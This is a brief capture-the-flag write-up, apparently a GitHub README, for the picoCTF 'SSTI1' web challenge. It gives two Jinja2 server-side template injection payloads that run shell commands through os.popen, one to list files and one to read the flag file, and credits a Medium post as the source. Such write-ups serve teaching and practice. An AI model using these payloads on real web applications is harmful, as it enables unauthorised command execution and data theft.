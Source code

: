 # SSTI1 Challenge

## Challenge Description
```
Description
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.

Hint: Server Side Template Injection
```

Challenge Link: https://play.picoctf.org/practice/challenge/471

## Solution
Found online. Source - https://medium.com/@jojolucky221/picoctf-20250-web-ssti-1-56b85ac6b278

Put this command into the site to view all files
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
```
![image](https://github.com/user-attachments/assets/fca6f2a9-c3c2-40da-a0fa-fafb394ec88b)



Put this command into the site to view flag file
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

![image](https://github.com/user-attachments/assets/63419931-a28f-430d-b45b-4f55af9fe051)
